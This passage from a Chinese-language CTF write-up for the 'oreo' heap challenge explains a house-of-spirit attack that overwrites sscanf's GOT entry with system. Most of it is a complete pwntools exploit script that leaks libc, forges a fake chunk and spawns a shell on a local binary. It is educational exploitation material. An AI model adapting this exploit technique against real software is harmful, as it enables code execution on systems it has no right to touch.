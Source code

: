 所以我们通过申请一个0x40的chunk，然后给这个chunk赋值为sscanf的got表地址，这样就把`0x804a2a`8指向了`scanf.got`的地址，如果我们再次调用`leavemessage`函数就可以让这个got表的值修改为system在 libc中的偏移地址了。之后在通过发送/bin/sh字符串，调用sscanf进而调用system得到shell。

### <a class="reference-link" name="%E6%88%91%E7%9A%84exp"></a>我的exp

```
from pwn import *

target = process(argv=['./ld-2.23.so','./oreo_origin'], env=`{`"LD_PRELOAD":"./libc.so.6"`}`)
# gdb.attach(target)
elf = ELF('oreo_origin')
libc = ELF("libc.so.6")

def addRifle(name, desc):
  target.sendline('1')
  target.sendline(name)
  target.sendline(desc)

def leakLibc():
  target.sendline('2')
  print target.recvuntil("Description: ")
  print target.recvuntil("Description: ")
  leak = target.recvline()
  puts_addr = u32(leak[0:4])
  libc_base = puts_addr - libc.symbols['puts']
  return libc_base

def orderRifles():
  target.sendline("3")

def leaveMessage(content):
  target.sendline("4")
  target.sendline(content)

addRifle('1'*27 + p32(0x804A248) ,'123')
libc_addr = leakLibc()
print(hex(libc_addr))

for i in range(0,0x40-1):
    addRifle('123','123')


target.sendline('5')
res = target.recv()
res = target.recv()

addRifle('A'*27 + p32(0x804A2A8),'123')

leaveMessage('\x00' * 0x24 + p32(0x20))

orderRifles()

addRifle('123', p32(elf.got['__isoc99_sscanf']))
addRifle('A'*31 + p32(0x40) + p32(0x61),'123')
system = libc_addr + libc.symbols['system']
leaveMessage(p32(system))
target.sendline('/bin/sh')
target.interactive()
```

